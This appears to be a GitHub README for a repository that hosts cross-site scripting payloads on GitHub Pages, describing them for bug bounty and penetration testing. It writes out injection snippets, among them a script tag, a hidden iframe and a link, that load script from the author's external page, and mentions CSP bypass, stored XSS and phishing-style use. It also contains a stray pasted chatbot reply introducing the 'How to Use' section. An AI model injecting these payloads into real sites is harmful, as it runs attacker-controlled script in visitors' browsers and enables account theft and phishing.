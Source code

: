 # XSS Payload Host (GitHub Pages)

This repository hosts XSS payloads via GitHub Pages. It is useful for security researchers, bug bounty hunters, or penetration testers to demonstrate and execute Cross-Site Scripting (XSS) payloads on vulnerable websites.
<br>
<div align="center" style="margin: 30px 0;">
  <a href="https://www.whatsapp.com/channel/0029Vb68FeRFnSzGNOZC3h3x">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=WhatsApp+Channel&color=25D366&logo=whatsapp&logoColor=FFFFFF&label=" alt="WhatsApp Channel">
  </a>
  <a href="https://t.me/HackerSecure">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Telegram+Channel&color=24A1DE&logo=telegram&logoColor=FFFFFF&label=" alt="Telegram Channel">
  </a>
  <a href="https://www.linkedin.com/in/cybersecurity-pentester/">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=LinkedIn&color=0A66C2&logo=LinkedIn&logoColor=FFFFFF&label=" alt="LinkedIn">
  </a>
  <a href="https://linktr.ee/yogsec">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=LinkTree&color=25D366&logo=linktree&logoColor=FFFFFF&label=" alt="LinkTree">
  </a>
  <a href="https://x.com/home">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=X&color=000000&logo=x&logoColor=FFFFFF&label=" alt="X">
  </a>
  <a href="mailto:abhinavsingwal@gmail.com?subject=Hi%20YogSec%20,%20nice%20to%20meet%20you!">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Gmail&color=EA4335&logo=Gmail&logoColor=FFFFFF&label=" alt="Email">
  </a>
  <a href="https://yogsec.github.io/yogsec/">
    <img src="https://img.shields.io/static/v1?style=for-the-badge&message=Website&color=FFFFC5&logo=Firefox&logoColor=000000&label=" alt="Website">
  </a>
</div>
<br>

![Page](https://github.com/yogsec/xss-test/blob/main/Screenshot%20from%202025-04-09%2002-47-52.png?raw=true)

<br>

## Features

- Hosts external XSS scripts via GitHub Pages
- Bypasses CSP in some cases (depending on target site)
- Works with `<a>`,`<script src>`, `<iframe>`, and `<img>`-based injection
- Easy to use for PoC (Proof-of-Concept)

---

Absolutely! Here's a clean, well-formatted `README.md` section for **"How to Use"**, with proper markdown and code blocks to make it look professional and easy to read:

---


## How I Use It

Use this GitHub Pages setup to host my XSS payloads for testing real-world vulnerabilities during bug bounty hunting.

🔗 **Live Payload URL:**  
[https://yogsec.github.io/xss-test/](https://yogsec.github.io/xss-test/)

When I find a vulnerable parameter or input field that allows HTML/JS injection, I inject a `<script src>` or `<iframe>` pointing to my hosted payload. Here are a few ways I use it:

### 📜 Basic Script Injection

```bash
<script src="https://yogsec.github.io/xss-test/"></script>
```

### 🕵️‍♂️ Stealthy iframe Injection

```bash
<iframe src="https://yogsec.github.io/xss-test/" style="display:none"></iframe>
```

### 🔗 Clickable Link Payload

```bash
<a href="https://yogsec.github.io/xss-test/">Click Here</a>
```

This method is useful on targets where CSP policies restrict inline scripts, but allow loading scripts or frames from external sources. It’s also handy for stored XSS and phishing-style payloads.

> ⚠️ Use only for ethical hacking and responsible disclosure.


